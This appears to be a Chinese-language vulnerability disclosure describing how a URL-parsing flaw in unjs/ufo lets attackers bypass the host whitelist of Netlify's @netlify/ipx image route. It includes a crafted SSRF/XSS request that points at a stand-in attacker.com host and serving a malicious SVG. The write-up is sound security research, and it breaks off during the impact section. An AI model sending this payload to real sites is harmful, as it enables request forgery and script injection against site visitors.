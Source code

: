 
### Netlify 的 IPX 路由的工作方式如下：

優化本地資源的 HTTP Request：

```
GET /_ipx/w_200/%2flocal.png
Host: example.com

(loaded example.com/local.png)
```

優化外部資源的 HTTP Request：
```
GET /_ipx/w_200/https:%2f%2fexplicitly-allowed-website.com%2fimage.png
Host: example.com

(loaded explicitly-allowed-website.com/image.png IF the site was whitelisted)
```


在玩了一會兒這個功能後
- 我們發現它使用了我們從未見過的獨特的 URL parsing library
- 我們找到了 source code，並意識到有可能通過一些不同的混亂攻擊來破壞 URL 解析功能

----------------

## 2. 依賴脆弱的 `unjs/ufo` library，通過不當的主機解析，在 `@netlify/ipx` 上進行  Cross-Site Scripting (跨站腳本攻擊)和 server side Request Forgery (請求偽造)

如果開發者在 config 加了白名單主機
- 由於 `unjs/ufo` 中不正確的 URL 解析，就有可能在任何運行 `@netlify/ipx` library 的網站上實現 Cross-Site Scripting 和 server side Request Forgery

### 重現的步驟
1. 在 config 中加入 `example.com` 作為白名單主機，並將 `attacker.com` 替換成由你控制的主機後，向任何運行 `@netlify/ipx` library 的網站發送以下 HTTP request：


```
GET /_ipx/w_200/https:%2f%2fexample.com%5c@attacker.com%2fattack.svg
Host: example.com
```

(上面的例子 decode: `/_ipx/w_200/https://example.com\@attacker.com/attack.svg` )


2. 觀察一個發送到你控制的 domain (`attacker.com`) 的 HTTP request
- 如果你在特定的路由上託管一個 `content-type` 為 `image/svg+xml` 的 SVG 文件，就有可能通過 SVG 文件執行任意的 JavaScript



### 影響

攻擊者
- 可以通過惡意的 SVG 執行任意的 JavaScript 和編寫任意的 HTML
- 有可能繞過主機白名單，從任何網站發送/讀取圖片文件
- 這可能被大量的網站濫用，因為 `/_ipx/` 路由是默認安裝在許多 Netlify 的
